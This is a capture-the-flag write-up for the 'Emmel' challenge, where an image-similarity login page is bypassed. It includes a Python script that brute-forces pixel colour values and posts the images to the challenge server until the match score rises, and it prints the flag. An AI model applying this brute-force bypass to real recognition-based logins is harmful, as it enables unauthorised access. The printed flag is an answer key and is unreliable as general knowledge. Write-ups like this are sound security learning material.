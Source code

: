 # Emmel

> Points: 1222 [2000]

## Description

> Investigators have found a curious login page on a server belonging to COViD. Can you get past the login screen?
>
> [Login Page](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:40751/)

## Solution
The approach to this challenge was to create a picture that was most similar to the image being stored on the server. 

Initially we uploaded quite a few pictures but did not manage to obtain more than 50%. 

Hence, we wrote a script to brute force all rgb for a single pixel however that did not work as well.

As such we wrote a script that bruteforces rgb for a 4 pixels and that manage to work.

Submitting [40.jpg](40.jpg) gave us the flag `govtech-csg{I_L0V3_G00D_D0GG0S!}`

```python
from requests import post
from PIL import Image
color =[]

for i in range(0,256):
    img = Image.new('RGB',(2,2),color=(0,0,0))
    img.putpixel((0,0),(255,43,0))
    img.putpixel((0,1),(17,2,2))
    img.putpixel((1,0),(1,i,0))
    img.save("{}.jpg".format(i))
    files = {'file': open('{}.jpg'.format(i),'rb')}
    url = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:40751/recognize"
    r = post(url, files=files)
    reg = re.findall(r"Similarity: (.*)%", r.text)
    if reg:
        val = float(reg[0])
        color.append((val,i))
    else:
        print(r.text)
        print(i)
        break;  
color.sort(reverse=True)
print(color[:5])
```

## Fun fact
After obtaining the flag we saw the floating dogos. Apparently that picture if converted to jpg could also solve the challenge LMAO
Try it yourself! It's in [dogos.jpg](dogos.jpg)
## Flag
`govtech-csg{I_L0V3_G00D_D0GG0S!}`
